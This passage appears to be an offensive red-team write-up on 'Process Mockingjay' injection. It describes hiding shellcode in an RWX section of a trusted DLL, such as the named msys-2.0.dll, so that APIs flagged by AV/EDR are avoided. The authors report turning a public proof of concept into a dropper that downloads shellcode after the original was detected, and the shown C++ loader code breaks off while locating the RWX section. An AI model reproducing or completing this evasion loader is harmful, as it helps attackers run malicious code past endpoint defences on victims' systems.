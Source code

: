 <div style="page-break-after: always;"></div>

## Process Injection using Process MockinJay

Official Blog: https://www.securityjoes.com/post/process-mockingjay-echoing-rwx-in-userland-to-achieve-code-execution

The concept revolves around housing our shellcode within a memory area that naturally allows Read-Write-Execute (RWX) permissions in a Dll. This memory region should be situated within a trusted Dll module and the process associated with it, eliminating the necessity for use typical process injection Windows/NT APIs like VirtualAllocEx that are flagged by AV/EDRs.

Two methods exist:
1. Self Injection: Find a vulnerable trusted Dll with RWX permissions to copy our shellcode into and load the Dll and execute shellcode.
2. Remote Injection: Leveraging trusted applications that use a vulnerable trusted Dll with RWX permissions to perform the same functionality as in Self Injection.

Since Remote Injection involves leveraging installed application which could vary on target applications we mainly focus on Self Injection.

To find Dll's with an RWX portion we can use a POC such as: https://github.com/pwnsauc3/RWXfinder


### Self Injection

POC reference used: `https://github.com/ewby/Mockingjay_POC/tree/main`

We begin by finding Dlls with an RWX portion using RWXfinder on a vm in the MDE testlab, however this results in not many findings.

```
C:\Users\administrator1\Desktop>.\rwxfinder.exe
```

Compiling the POC we find it is detected by default because of the hardcoded shellcode. 

We alter the source as follows and convert it to a C++ project to incorporate dropper functionality to download shellcode dynamically as before.

We also use the default `C:\\Program Files\\Microsoft Visual Studio\\2022\\Community\\Common7\\IDE\\CommonExtensions\\Microsoft\\TeamFoundation\\Team Explorer\\Git\\usr\\bin\\msys-2.0.dll"` Dll (RWX) as suggested in the blog for shellcode execution.

```
#include <stdio.h>
#include <Windows.h>
#include <psapi.h>
#include <dbghelp.h>
#include <vector>
#include <winternl.h>
#include <winhttp.h>

#pragma comment(lib, "winhttp.lib")
#pragma comment(lib, "Dbghelp.lib")


// calculate the offset to the RWX memory region of a DLL
DWORD_PTR FindRWXOffset(HMODULE hModule)
{
    IMAGE_NT_HEADERS* ntHeader = ImageNtHeader(hModule);
    if (ntHeader != NULL)
    {
        IMAGE_SECTION_HEADER* sectionHeader = IMAGE_FIRST_SECTION(ntHeader);
        for (WORD i = 0; i < ntHeader->FileHeader.NumberOfSections; i++)
        {
            // check if section has RWX permissions
            if ((sectionHeader->Characteristics & IMAGE_SCN_MEM_EXECUTE) &&
                (sectionHeader->Characteristics & IMAGE_SCN_MEM_WRITE))
```